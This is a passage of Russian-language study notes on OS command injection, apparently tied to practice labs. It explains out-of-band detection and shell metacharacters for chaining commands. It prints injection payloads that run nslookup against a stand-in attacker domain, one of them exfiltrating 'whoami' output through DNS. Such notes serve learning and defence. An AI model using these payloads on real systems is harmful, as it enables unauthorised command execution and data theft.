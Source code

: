 Мы можем использовать введенную команду, которая запустит внеполосное сетевое взаимодействие с системой, которой мы управляем, используя методы OAST. Например:
```
& nslookup kgji2ohoyw.web-attacker.com &
```
Эта полезная нагрузка использует `nslookup`команду для вызова поиска DNS для указанного домена. Злоумышленник может отслеживать, происходит ли поиск, чтобы подтвердить, была ли команда успешно внедрена.

Вне полосный канал обеспечивает простой способ извлечения выходных данных из внедренных команд:
```
& nslookup whoami.kgji2ohoyw.web-attacker.com &
```

Это вызывает DNS-поиск домена злоумышленника, содержащего результат `whoami`команды:
```
wwwuser.kgji2ohoyw.web-attacker.com
```

#### Лабы
- [[Лабораторная работа Слепое внедрение команд ОС с внеполосным взаимодействием]]

- [[Лабораторная работа Слепое внедрение команд ОС с внеполосной эксфильтрацией данных]]

# Способы внедрения команд ОС

Метасимволы оболочки — это специальные символы, которые интерпретируются командной оболочкой (shell) для выполнения определенных действий, таких как объединение команд, перенаправление вывода и т.д. Эти символы могут быть использованы для внедрения команд в уязвимые системы.

Разделители команд позволяют объединять несколько команд в одну строку. В зависимости от операционной системы, используются разные символы:

**Универсальные разделители (работают в Windows и Unix-системах):**

- `&` — выполняет команды последовательно, независимо от результата предыдущей команды.
- `&&` — выполняет следующую команду только в случае успешного завершения предыдущей.
- `|` — передает вывод одной команды на вход другой (конвейер).
- `||` — выполняет следующую команду только в случае неудачи предыдущей.

**Разделители, специфичные для Unix-систем:**

- `;` — выполняет команды последовательно, независимо от результата предыдущей.
- Новая строка (`0x0a` или `\n`) — аналогична `;`, но используется для разделения команд на разных строках.

#### Встроенные команды

В Unix-системах можно использовать обратные кавычки или символ доллара для выполнения вложенных команд:

- `` ` ``введенная команда`` ` `` — выполняет команду внутри обратных кавычек и подставляет результат в основную команду.
- `$(введенная команда)` — аналогично обратным кавычкам, но с более читаемым синтаксисом.

#### Особенности поведения метасимволов
